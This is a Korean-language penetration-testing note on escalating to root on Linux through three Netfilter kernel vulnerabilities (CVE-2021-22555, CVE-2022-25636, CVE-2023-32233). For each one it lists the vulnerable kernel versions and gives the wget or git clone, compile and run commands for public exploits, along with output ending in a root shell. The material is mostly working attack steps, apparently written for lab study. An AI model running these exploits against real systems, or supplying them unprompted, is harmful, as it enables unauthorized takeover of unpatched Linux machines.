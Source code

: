 Netfilter는 네트워크 주소 변환 및 방화벽에 관련된 기타 도구를 제공하는 Linux 커널 모듈이다.

## CVE-2021-22555

취약한 커널 버전은 **2.6-5.11** 이다.
```powershell
cry0l1t3@ubuntu:~$ uname -r

5.10.5-051005-generic
```

**exploit**
```powershell
cry0l1t3@ubuntu:~$ wget <https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c>
cry0l1t3@ubuntu:~$ gcc -m32 -static exploit.c -o exploit
cry0l1t3@ubuntu:~$ ./exploit

[+] Linux Privilege Escalation by theflow@ - 2021

[+] STAGE 0: Initialization
[*] Setting up namespace sandbox...
[*] Initializing sockets and message queues...

[+] STAGE 1: Memory corruption
[*] Spraying primary messages...
[*] Spraying secondary messages...
[*] Creating holes in primary messages...
[*] Triggering out-of-bounds write...
[*] Searching for corrupted primary message...
[+] fake_idx: fff
[+] real_idx: fdf

...SNIP...

root@ubuntu:/home/cry0l1t3# id

uid=0(root) gid=0(root) groups=0(root)
```

**에러 발생 시,**
```python
sudo apt-get install libc6-dev-i386
```

## CVE-2022-25636

리눅스 커널 **5.4-5.6.10** 이 취약하다(?) 취약한 대상은 더 많다. 분석은 [다음](https://nickgregory.me/post/2022/03/12/cve-2022-25636/)에 있다.

**커널 버전 확인**
```powershell
cry0l1t3@ubuntu:~$ uname -r

5.13.0-051300-generic
```

→ 취약한 버전: **5.11-5.15.25, 5.16-5.16.11, 5.4-5.4.181, 5.5-5.10.102**

**exploit**
```powershell
cry0l1t3@ubuntu:~$ git clone <https://github.com/Bonfee/CVE-2022-25636.git>
cry0l1t3@ubuntu:~$ cd CVE-2022-25636
cry0l1t3@ubuntu:~$ make
cry0l1t3@ubuntu:~$ ./exploit

[*] STEP 1: Leak child and parent net_device
[+] parent net_device ptr: 0xffff991285dc0000
[+] child  net_device ptr: 0xffff99128e5a9000

[*] STEP 2: Spray kmalloc-192, overwrite msg_msg.security ptr and free net_device
[+] net_device struct freed

[*] STEP 3: Spray kmalloc-4k using setxattr + FUSE to realloc net_device
[+] obtained net_device struct

[*] STEP 4: Leak kaslr
[*] kaslr leak: 0xffffffff823093c0
[*] kaslr base: 0xffffffff80ffefa0

[*] STEP 5: Release setxattrs, free net_device, and realloc it again
[+] obtained net_device struct

[*] STEP 6: rop :)

# id

uid=0(root) gid=0(root) groups=0(root)
```

## CVE-2023-32233

취약 대상: **3.13-4.14.314, 4.15-4.19.282, 4.20-5.4.242, 5.11-5.15.110, 5.16-6.1.27, 5.5-5.10.179, 6.2-6.2.14, 6.3-6.3.1**

**사전필요**
```jsx
sudo apt update
sudo apt install libmnl-dev libnftnl-dev
```

**PoC**
```powershell
cry0l1t3@ubuntu:~$ git clone <https://github.com/Liuk3r/CVE-2023-32233>
cry0l1t3@ubuntu:~$ cd CVE-2023-32233
cry0l1t3@ubuntu:~/CVE-2023-32233$ gcc -Wall -o exploit exploit.c -lmnl -lnftnl
```

**exploit**
```powershell
cry0l1t3@ubuntu:~/CVE-2023-32233$ ./exploit

[*] Netfilter UAF exploit

Using profile:
========
1                   race_set_slab                   # {0,1}
1572                race_set_elem_count             # k
4000                initial_sleep                   # ms
100                 race_lead_sleep                 # ms
600                 race_lag_sleep                  # ms
100                 reuse_sleep                     # ms
39d240              free_percpu                     # hex
2a8b900             modprobe_path                   # hex
23700               nft_counter_destroy             # hex
347a0               nft_counter_ops                 # hex
a                   nft_counter_destroy_call_offset # hex
ffffffff            nft_counter_destroy_call_mask   # hex
e8e58948            nft_counter_destroy_call_check  # hex
========

[*] Checking for available CPUs...
[*] sched_getaffinity() => 0 2
[*] Reserved CPU 0 for PWN Worker
[*] Started cpu_spinning_loop() on CPU 1
[*] Started cpu_spinning_loop() on CPU 2
[*] Started cpu_spinning_loop() on CPU 3
[*] Creating "/tmp/modprobe"...
[*] Creating "/tmp/trigger"...
[*] Updating setgroups...
[*] Updating uid_map...
[*] Updating gid_map...
[*] Signaling PWN Worker...
[*] Waiting for PWN Worker...

...SNIP...

[*] You've Got ROOT:-)

# id

uid=0(root) gid=0(root) groups=0(root)
```